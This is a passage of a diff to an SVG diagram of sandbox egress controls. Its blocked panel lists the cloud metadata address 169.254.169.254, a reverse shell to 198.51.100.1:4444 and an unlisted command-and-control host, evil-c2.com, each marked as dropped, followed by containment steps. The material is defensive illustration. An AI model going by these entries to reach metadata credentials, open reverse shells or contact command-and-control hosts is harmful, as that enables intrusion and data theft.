        <text x="83" y="112" font-size="6.8" fill="#15803d" text-anchor="middle">Forwarded over Host eth0</text>
        <text x="83" y="124" font-size="6.8" fill="#15803d" text-anchor="middle">Clean Execution Pipeline</text>
      </g>
    </g>
    <g transform="translate(10, 214)">
      <rect width="182" height="182" rx="3" fill="#ffffff" stroke="#991b1b" stroke-width="1.2" />
      <rect width="182" height="22" rx="3" fill="#fee2e2" stroke="#991b1b" stroke-width="1.2" />
      <text x="8" y="15" font-size="8" font-weight="700" fill="#991b1b">BLOCKED / TRAPPED</text>
      <g transform="translate(8, 28)">
        <text x="0" y="12" font-family="monospace" font-size="7.2" font-weight="700" fill="#991b1b">169.254.169.254 (IMDS)</text>
-         <text x="0" y="22" font-size="6.8" fill="#7f1d1d">Kernel eBPF drop → TC_ACT_SHOT</text>
+         <text x="0" y="22" font-size="6.8" fill="#7f1d1d">Kernel filter drop → TC_ACT_SHOT</text>
        <text x="0" y="38" font-family="monospace" font-size="7.2" font-weight="700" fill="#991b1b">198.51.100.1:4444 (Raw TCP)</text>
        <text x="0" y="48" font-size="6.8" fill="#7f1d1d">Reverse shell aborted at L4</text>
        <text x="0" y="64" font-family="monospace" font-size="7.2" font-weight="700" fill="#991b1b">evil-c2.com (SNI Unlisted)</text>
        <text x="0" y="74" font-size="6.8" fill="#7f1d1d">HTTP 403 Forbidden → TCP RST</text>
        <rect y="86" width="166" height="60" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
        <text x="83" y="100" font-size="7.5" font-weight="700" fill="#991b1b" text-anchor="middle">CONTAINMENT TRIGGERED</text>
-         <text x="83" y="112" font-size="6.8" fill="#7f1d1d" text-anchor="middle">Epistemic Audit Alert Emitted</text>
-         <text x="83" y="124" font-size="6.8" fill="#7f1d1d" text-anchor="middle">Sandbox Terminated via SIGKILL</text>
+         <text x="83" y="112" font-size="6.8" fill="#7f1d1d" text-anchor="middle">Alert Written to Trajectory Log</text>
+         <text x="83" y="124" font-size="6.8" fill="#7f1d1d" text-anchor="middle">Sandbox Lease Revoked</text>
        <text x="83" y="136" font-size="6.8" fill="#7f1d1d" text-anchor="middle">Zero Exfiltration onto Fabric</text>
      </g>
    </g>
  </g>
</svg>
